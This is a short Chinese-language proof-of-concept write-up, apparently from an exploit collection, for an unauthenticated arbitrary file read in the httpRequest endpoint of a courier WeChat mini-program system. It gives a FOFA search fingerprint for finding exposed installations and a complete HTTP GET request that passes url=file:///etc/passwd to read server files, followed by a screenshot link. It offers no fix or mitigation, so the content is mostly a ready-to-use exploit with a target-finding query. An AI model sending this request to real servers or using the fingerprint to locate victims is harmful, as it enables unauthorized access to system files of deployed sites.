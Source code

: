 # 快递微信小程序系统httpRequest任意文件读取漏洞

快递微信小程序系统 httpRequest 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统文件。

## fofa

```javascript
body="static/default/newwap/lang/js/jquery.localize.min.js"
```

## poc

```javascript
GET /weixin/index/httpRequest?url=file:///etc/passwd HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
```

![image-20241101192644761](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011926836.png)